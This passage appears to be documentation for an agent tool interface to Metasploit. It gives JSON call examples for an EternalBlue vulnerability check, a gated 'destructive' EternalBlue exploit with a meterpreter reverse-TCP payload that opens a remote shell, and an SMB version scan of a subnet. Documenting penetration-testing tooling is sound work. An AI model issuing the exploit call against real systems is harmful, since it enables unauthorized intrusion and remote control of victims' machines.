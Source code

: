 **Safe Example (Vulnerability Check)**:
```json
{
  "name": "metasploit.exploit",
  "arguments": {
    "module": "exploit/windows/smb/ms17_010_eternalblue",
    "target": "192.168.1.100",
    "check_only": true,
    "safe_mode": true
  }
}
```

**⚠️ Advanced Example (Requires `allow_destructive: true`)**:
```json
{
  "name": "metasploit.exploit",
  "arguments": {
    "module": "exploit/windows/smb/ms17_010_eternalblue",
    "target": "192.168.1.100",
    "payload": "windows/meterpreter/reverse_tcp",
    "lhost": "192.168.1.50",
    "lport": 4444,
    "check_only": false,
    "safe_mode": false
  }
}
```

### metasploit.auxiliary

Metasploit auxiliary modules for scanning, enumeration, and reconnaissance.

**Schema**: `/schemas/tools/metasploit_auxiliary.json`

**Arguments**:
- `module` (required): Auxiliary module path (e.g., "auxiliary/scanner/smb/smb_version")
- `target` (required): Target IP address, hostname, or CIDR range
- `rport` (optional): Remote port on target system
- `threads` (optional): Number of concurrent threads (default: 10)
- `timeout` (optional): Execution timeout in seconds (default: 300)
- `options` (optional): Additional module-specific options

**Example**:
```json
{
  "name": "metasploit.auxiliary",
  "arguments": {
    "module": "auxiliary/scanner/smb/smb_version",
    "target": "192.168.1.0/24",
    "threads": 20,
    "options": {
      "ShowProgress": "true"
    }
  }
}
```
